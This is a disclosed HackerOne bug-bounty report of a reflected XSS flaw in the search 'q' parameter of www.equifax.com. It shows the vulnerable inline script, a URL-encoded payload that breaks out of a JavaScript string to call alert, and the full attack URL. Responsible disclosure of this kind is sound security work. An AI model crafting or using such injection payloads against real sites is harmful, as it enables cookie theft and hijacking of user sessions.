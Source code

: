 # reflected XSS in [www.equifax.com]

## Report Details
- **Report ID**: 1818172
- **URL**: https://hackerone.com/reports/1818172
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-12-28T20:06:27.578Z
- **Disclosed**: 2023-04-23T12:40:15.348Z

## Reporter
- **Username**: abdoubouanik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: equifax

## Vulnerability Information
hi , I hope you are well, i found reflected XSS in this endpoint via ```q```  parameter:
```https://www.equifax.com/personal/search?q=broook```

###Steps:

1. open ```https://www.equifax.com/personal/search?q=broook```
2. view the source code of the page and search for word broook you will find that it reflected in the source code: 
{F2094877}

-
-

3. ```broook``` word reflected in javascript code:
```
<script type="text/javascript">

var pageProduct = null;
window.onload = function(e){ 
		
		Analytics.trackEvent('SEARCHRETURNED', {internalSearchTerm: "broook" , numOfSearchResultsReturned: 1});
	
}
</script>

```
-
-

4. By using this payload ```%22%20%2C%20internalSearchTerm%3A%20%5B"broook"%5D.map%28alert%29%20%2C%20numOfSearchResultsReturned%3A%20%22b``` , I modified the parameters of the ```Analytics.trackEvent``` function to be like this:
```
<script type="text/javascript">

var pageProduct = null;
window.onload = function(e){ 
		
		Analytics.trackEvent('SEARCHRETURNED', {internalSearchTerm: "" , internalSearchTerm: ["broook"].map(alert) , numOfSearchResultsReturned: "b" , numOfSearchResultsReturned: 1});
	
}
</script>
```
{F2094892}

-
-

5. the following is the link with my XSS payload:   https://www.equifax.com/personal/search?q=%22%20%2C%20internalSearchTerm%3A%20%5B"broook"%5D.map%28alert%29%20%2C%20numOfSearchResultsReturned%3A%20%22b

{F2094902}

## Impact

an attacker can exeute JS codes on the victims and this could be steal user's cookies

## Attachments
- Screenshot_2022-12-28_20-43-33.png
- Screenshot_2022-12-28_20-56-04.png
- Screenshot_2022-12-28_20-54-41.png
